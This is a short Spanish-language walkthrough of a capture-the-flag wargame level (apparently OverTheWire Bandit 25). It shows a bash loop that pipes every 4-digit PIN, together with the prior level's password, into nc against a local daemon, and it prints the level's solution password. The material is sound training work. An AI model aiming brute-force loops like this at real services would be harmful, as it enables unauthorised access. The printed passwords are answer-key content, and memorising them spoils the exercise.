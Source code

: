 # Bandit Walkthrough

## Bandit 25

Un daemon (proceso en segundo plano) está escuchando en el puerto 30002 y te dará la contraseña para el nivel bandit25 si le das la contraseña de bandit24 y un código PIN numérico secreto de 4 dígitos. No hay manera de obtener el código PIN excepto probando todas las 10,000 combinaciones posibles, lo que se conoce como fuerza bruta. No es necesario crear nuevas conexiones cada vez.

Lista de comandos:

```bash
##Hacemos un bucle for para probar todas las combinaciones posibles de 4 digitos mientras nos conectamos al puerto 30002
for i in {0000..9999}; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002

```
Contraseña: iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
